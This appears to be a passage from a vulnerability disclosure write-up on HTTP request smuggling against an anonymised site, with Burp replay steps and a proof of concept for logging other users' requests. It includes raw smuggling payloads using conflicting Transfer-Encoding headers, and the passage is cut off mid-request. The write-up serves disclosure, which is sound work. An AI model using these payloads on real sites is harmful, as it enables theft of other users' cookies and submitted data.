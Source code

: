 3) Now at the victim's machine, send the request to Burp's intruder and replay it there for about 200-300 times.

4) Simultaneously within this meantime, keep on replaying the attacker's request at repeater. Keep replaying till the time intruder has finished 200/300 requests.

5) Observe the presence of some unusual `HTTP/1.1 405 Not Allowed` responses containing `hopefully405` within the response body, instead of expected `HTTP/1.1 200 OK` within the Intruder table of victim's machine -:

![1](https://user-images.githubusercontent.com/58471667/190241591-6e88606f-5ec1-4e61-b438-655f23457f40.png)

## Proof of Concept - Logging Mass HTTP requests of users at `https://my.vulnerable.com` -:

Now one of the consequences of the above vulnerability is that an attacker can leverage it to log mass user requests. Before proceeding, let's understand one of the basic functionality of `https://my.vulnerable.com`, which is if I make a POST request as -:

```http
POST /user/vendor/legal HTTP/1.1
Host: my.vulnerable.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://my.vulnerable.com/user/vendor/legal
Content-Type: application/x-www-form-urlencoded
Content-Length: 399
Connection: close
Cookie: ******************
Upgrade-Insecure-Requests: 1

user_vendor_legal%5Bname%5D=xxxxxx&user_vendor_legal%5Baddress%5D=blahblah&user_vendor_legal%5Btype%5D=individual&user_vendor_legal%5BrepFirstName%5D=xxxxxxx&user_vendor_legal%5BrepLastName%5D=xxxxxx&user_vendor_legal%5Btelephone%5D=xxxxxxxx&user_vendor_legal%5Bterms%5D=1&user_vendor_legal%5Bnda%5D=1&user_vendor_legal%5Bsave%5D=&user_vendor_legal%5B_token%5D=YxqzJ2bDMvSMO8fZXRPcntK7bj3X0X31w7KlUmCLgcw
```

Then if I navigate at `https://my.vulnerable.com/user/vendor/legal` I can see the value of `Business Address` field being saved there (in this case it's `blahblah`).

This simply means, if I put the `user_vendor_legal%5Baddress%5D` param at the end of the POST body and make a request like this -:

```http
POST / HTTP/1.1
Host: my.vulnerable.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://my.vulnerable.com/
Cookie: ******************
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 1783
Transfer-Encoding: chunked
Transfer-encoding: identity

0

POST /user/vendor/legal HTTP/1.1
Host: my.vulnerable.com
```